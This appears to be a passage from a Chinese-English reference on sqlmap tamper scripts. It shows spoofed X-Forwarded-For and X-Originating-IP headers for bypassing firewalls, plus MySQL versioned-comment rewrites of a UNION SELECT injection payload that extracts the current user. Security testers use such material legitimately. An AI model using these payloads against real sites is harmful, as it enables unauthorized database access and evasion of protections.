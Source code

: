 附加一个HTTP头来 X-originating-IP = "127.0.0.1" 来绕过防火墙

Reference:
* https://web.archive.org/web/20160815052159/http://community.hpe.com/t5/Protect-Your-Assets/Bypassing-web-application-firewalls-using-HTTP-headers/ba-p/6418366

Examples:
```
>> X-forwarded-for: TARGET_CACHESERVER_IP (184.189.250.X)
>> X-remote-IP: TARGET_PROXY_IP (184.189.250.X)
>> X-originating-IP: TARGET_LOCAL_IP (127.0.0.1)
>> x-remote-addr: TARGET_INTERNALUSER_IP (192.168.1.X)
>> X-remote-IP: * or %00 or %0A
```

### versionedkeywords.py

> Encloses each non-function keyword with (MySQL) versioned comment

Requirement:
* MySQL

Tested against:
* MySQL 4.0.18, 5.1.56, 5.5.11

```py
>>> tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')
'1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#'
```

### versionedmorekeywords.py

> Encloses each keyword with (MySQL) versioned comment

Requirement:
* MySQL >= 5.1.13

Tested against:
* MySQL 5.1.56, 5.5.11

```py
>>> tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,122,114,115,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,115,114,121,58))#')
'1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS*//*!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#'
```

### xforwardedfor.py

> Append a fake HTTP header 'X-Forwarded-For' (and alike)

附加多个虚假的 HTTP 头
```py
headers["X-Forwarded-For"] = randomIP()
headers["X-Client-Ip"] = randomIP()
headers["X-Real-Ip"] = randomIP()
headers["CF-Connecting-IP"] = randomIP()
headers["True-Client-IP"] = randomIP()
headers["Via"] = "1.1 Chrome-Compression-Proxy"
headers["CF-IPCountry"] = random.sample(('GB', 'US', 'FR', 'AU', 'CA', 'NZ', 'BE', 'DK', 'FI', 'IE', 'AT', 'IT', 'LU', 'NL', 'NO', 'PT', 'SE', 'ES', 'CH'), 1)[0]
```
